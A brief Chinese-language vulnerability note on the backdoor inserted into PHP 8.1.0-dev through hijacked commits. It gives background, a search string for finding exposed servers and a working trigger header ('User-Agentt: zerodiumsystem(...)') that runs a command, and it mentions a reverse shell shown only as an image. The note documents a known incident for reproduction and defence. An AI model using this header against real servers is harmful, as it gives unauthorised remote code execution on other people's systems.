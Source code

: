 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## 网络测绘

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent



![](images/202202091309632.png)

反弹shell

![](images/202202091310034.png)